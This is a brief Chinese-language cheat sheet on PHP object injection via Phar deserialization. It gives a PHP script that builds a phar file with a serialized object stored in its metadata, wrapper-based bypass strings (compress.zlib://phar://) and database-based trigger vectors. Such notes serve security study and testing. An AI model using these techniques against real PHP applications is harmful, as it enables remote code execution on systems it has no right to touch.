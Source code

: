 # PHP Object Injection

## Phar

### 相关原理：

* https://paper.seebug.org/680/
* https://blog.zsxsoft.com/post/38?from=timeline&isappinstalled=0

### Phar构造

```php
<?php
    include __DIR__ . "/vender/autoload.php";
    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
	# 带有反序列化漏洞的类
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
```

### 相关利用

受影响函数：

![](../../statics/php_phar_effect.png)

`phar://test.phar/test.txt`

> phar文件的后缀不一定是phar

绕过姿势：

* `Phar://test.phar/test.txt`
* `compress.bzip2://phar://test.phar/test.txt`
* `compress.zlib://phar://test.phar/test.txt`

数据库相关：

* Mysql `LOAD DATA LOCAL INFILE`
* Postgre `$pdo->pgsqlCopyFromFile`

## 参考资料

* https://www.insomniasec.com/downloads/publications/Practical%20PHP%20Object%20Injection.pdf
* https://github.com/ambionics/phpggc
